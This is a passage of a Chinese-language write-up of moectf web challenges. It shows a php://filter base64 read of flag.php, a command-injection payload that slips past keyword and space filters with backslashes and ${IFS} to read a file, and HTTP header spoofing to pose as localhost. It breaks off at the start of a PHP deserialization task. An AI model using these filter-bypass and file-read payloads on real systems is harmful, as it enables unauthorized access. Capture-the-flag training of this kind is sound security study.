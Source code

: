 `php://filter/read=convert.base64-encode/resource=flag.php`

![](https://i.loli.net/2021/09/21/HF2gSVjakIBxo73.png)

> 解密得到：<?$flag="moectf{xdsec6asdgas7ahfsfaxczc}";?>

### (4)babyRCE

如题，是一道远程漏洞执行

![](https://i.loli.net/2021/09/21/a3XI8vtYu21kQLj.png)

根据经验和积累，可以用`\`来绕过单词限制，用`${IFS}`或者`$IFS`绕过空格限制

> system（）函数里执行的是各种shell命令 shell命令中的\是转义字符 但是\后跟的是非元字符，与没有加\的效果是一样的

`l\s` , `ca\t${IFS}f\lag.php`,用cat绕过后发现没反应，注意使用cat要查看源代码

![](https://i.loli.net/2021/09/21/RaSxKvV7TCZ8Xbi.png)

最后可以使用payload:`rce=ta\c${IFS}f\lag.php`,拿到flag

![](https://i.loli.net/2021/09/21/gjX7arHvcQfIihp.png)

### (5)Do you know HTTP?

这题考察的应该是对HTTP头的理解，采用Burpsuite抓包修改进行解题

共有四关，1.用'HS'来请求试试？改成`HS`

<img src="https://i.loli.net/2021/09/21/lf4NeDthuJAEbpx.png" alt=""  />

2.用本地ip访问
`X-forwarded-for:127.0.0.1`

![](https://i.loli.net/2021/09/21/bVkfSq4zwtA27XE.png)

3.网页来源

`referer:www.ltyyds.com`

![](https://i.loli.net/2021/09/21/HduOYyIQwqanFzU.png)

4.伪造浏览器

`User-Agent: LT`

![](https://i.loli.net/2021/09/21/Fr5QYVbjnRwShzq.png)

### (6)ezunserialize

```php
<?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }

    function __destruct()
    {
        $this->start->helloworld();
    }
}
```